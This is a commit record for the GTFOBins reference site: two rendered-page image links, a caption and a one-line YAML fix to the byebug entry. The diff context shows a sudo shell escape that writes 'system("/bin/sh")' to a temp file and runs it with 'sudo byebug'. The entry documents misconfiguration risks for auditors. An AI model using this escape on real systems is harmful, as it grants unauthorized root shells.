

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/byebug.md, in a window 1280 px wide. Shown: the top 603 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Update byebug.md

```diff
--- a/_gtfobins/byebug.md
+++ b/_gtfobins/byebug.md
@@ -7,6 +7,7 @@ functions:
         byebug $TF
         continue
   sudo:
+    - code: |
         TF=$(mktemp)
         echo 'system("/bin/sh")' > $TF
         sudo byebug $TF
```
